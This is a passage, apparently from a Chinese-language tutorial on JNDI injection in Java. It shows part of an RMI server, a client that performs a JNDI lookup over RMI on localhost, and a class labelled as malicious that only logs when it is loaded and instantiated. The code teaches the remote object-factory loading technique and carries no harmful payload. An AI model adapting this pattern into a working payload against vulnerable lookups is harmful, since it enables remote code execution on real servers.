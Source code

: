 ```plain
            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

客户端代码：

```plain
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.directory.*;
import java.util.Hashtable;

public class JNDILookup {
    public static void main(String[] args) {
        try {
            Object ret = new InitialContext().lookup("rmi://127.0.0.1:1099/Foo");
            System.out.println("ret: " + ret);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

恶意类：

```plain
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilClass implements ObjectFactory {
    static void log(String key) {
        try {
            System.out.println("EvilClass: " + key);
        } catch (Exception e) {
            // do nothing
        }
    }

    {
        EvilClass.log("IIB block");
    }

    static {
        EvilClass.log("static block");
    }

    public EvilClass() {
        EvilClass.log("constructor");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        EvilClass.log("getObjectInstance");
        return null;
    }
}
```